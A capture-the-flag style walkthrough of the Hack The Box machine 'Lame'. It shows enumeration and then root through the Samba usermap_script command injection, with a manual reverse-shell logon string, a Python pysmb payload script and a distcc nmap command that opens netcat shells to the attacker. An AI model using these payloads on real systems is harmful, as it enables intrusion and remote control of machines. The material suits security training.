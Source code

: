 # Lame HTB, IP address: 10.10.10.3

## Initial Enumeration 
 
 1. **nmap -sC -sV 10.10.10.3** 
 
![lame1](https://user-images.githubusercontent.com/15195048/93899974-bab02500-fca9-11ea-87c0-4ab4a045c096.png)
----------------------------------------------------------------------------------------------------------------------------------------------
## Port Enumeration

## 1.Enumerating FTP

vulnerable **vsftpd 2.3.4** , anonymous login allowed
According to nmap script the ftp service is not vulnerable so the version would possibly be a banner.
However, we will try metasploit in order to exploit this vulnerability.

**Metasploit**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo msfdb start
msfconsole
>search vsftpd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![lame2](https://user-images.githubusercontent.com/15195048/93902144-167bad80-fcac-11ea-994e-7fff3d2e861e.png)


Yes, indeed this is a banner so it wont work!!

![lame3](https://user-images.githubusercontent.com/15195048/93902145-17144400-fcac-11ea-995f-560d1a312769.png)

## 2.Enumerating SMB on port 139 & 445

**1.enum4linux -a 10.10.10.3**


![lame4](https://user-images.githubusercontent.com/15195048/93902146-17144400-fcac-11ea-94fd-1935c5c21b4f.png)


**2.smbclient -L \\10.10.10.3**
 error NT_STATUS_CONNECTION_DISCONNECTED
 
  SMBClient generating an error: protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
  Samba has turned off default SMBv1 support as of September of last year.
  
**--option='client min protocol=NT1'**

**smbclient //10.10.10.x/ --option='client min protocol=NT1'**

Go to ur /etc/samba/smb.conf under the [global] section:
client min protocol = NT1
That allows smbclient to work against SMBv1 shares.

**3.smbmap -H 10.10.10.3**

 ![lame5](https://user-images.githubusercontent.com/15195048/93902150-17acda80-fcac-11ea-995a-4a4b2e36e4ec.png)

 
# Privilege Escalation no1

# A)Metasploit
Metasploit
msf5 > search samba 3.0.20
use exploit/multi/samba/usermap_script

![lame6](https://user-images.githubusercontent.com/15195048/93902152-18457100-fcac-11ea-99c5-18f7cbc424e5.png)

**Rooted**

# B)Manually exploit SMB

smbclient 10.10.10.3/tmp

smb>logon "/=`nohup nc -nv 10.10.14.4 4444 -e /bin/sh`"

![lame7](https://user-images.githubusercontent.com/15195048/93902155-18457100-fcac-11ea-998a-1cd80ce0c314.png)


**Attacker:** 
nc -lvpn 4444

![lame8](https://user-images.githubusercontent.com/15195048/93902156-18de0780-fcac-11ea-9708-2af75de533b0.png)

**Rooted**

# Samba exploit script written in Python
If you find an exploit written in Python you could modify the variables, or you can run line by line yourself.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$pythonn
>>> payload = '
>>> from smb.SMBConnection import SMBConnection
>>> payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.X 9999 >/tmp/f' Attacker IP and port
>>> username = "/=`nohup " + payload + "`"
>>> connection = SMBConnection(username, "", "", "")
>>> connection.connect("10.10.10.3",445)  Victim IP and port
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Attacker:**
nc -lnvp 9999

**Rooted**
-----------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation no2
Enumerating port 3621 (distccd)

![lame9](https://user-images.githubusercontent.com/15195048/93902157-18de0780-fcac-11ea-9d38-70413e9d14dd.png)

 
Metasploit module:
searchsploit -m exploits/multiple/remote/9915.rb

Let’s see if a non-metasploit one is on the internet:

NMAP Script
ls -la /usr/share/nmap/scripts/*distcc*
/usr/share/nmap/scripts/distcc-cve2004-2687.nse


**nmap -p 3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh 10.10.14.X 9999'" 10.10.10.3 -Pn**

**Attacker:**
$ nc -lnvp 9999

# A)GTFobins nmap


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2$ id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# B)Kernel Exploit
Kernel Exploit
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

Search kernel exploits: 8572.c

Send with python server the exploit and get it from the victim machine
gcc -o exp 8572.c #compile it and run it

**UDEV Modern Linux distributions** are capable of identifying a hardware component which is plugged into an already-running system. There are a lot of user-friendly distributions like Ubuntu, which will automatically run specific applications like Rhythmbox when a portable device like an iPod is plugged into the system.

*Netlink is used to transfer information between the kernel and user- space processes.*
